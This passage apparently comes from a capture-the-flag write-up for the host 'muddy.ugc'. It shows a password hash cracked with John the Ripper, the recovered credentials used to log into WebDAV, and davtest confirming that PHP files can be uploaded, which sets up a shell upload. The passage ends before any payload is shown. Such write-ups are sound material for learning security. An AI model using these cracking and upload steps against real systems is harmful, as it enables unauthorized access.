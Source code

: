 This hash can be cracked to give the password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sleepless        (?)     
1g 0:00:00:00 DONE (2023-07-21 16:38) 3.125g/s 219000p/s 219000c/s 219000C/s softball30..ramarama
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Afterwards, we can login to the `/webdav` instance:

<figure><img src="../../../.gitbook/assets/image (2314).png" alt=""><figcaption></figcaption></figure>

### Webdav Upload Shell

I tested whether we could upload files using `davtest`:

```
$ davtest -url http://muddy.ugc/webdav -auth administrant:sleepless
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://muddy.ugc/webdav
********************************************************
NOTE    Random string for this session: 4qtgGAJnSK33jj
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj
********************************************************
 Sending test files
PUT     html    SUCCEED:        http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj/davtest_4qtgGAJnSK33jj.html
PUT     php     SUCCEED:        http://muddy.ugc/webdav/DavTestDir_4qtgGAJnSK33jj/davtest_4qtgGAJnSK33jj.php
```
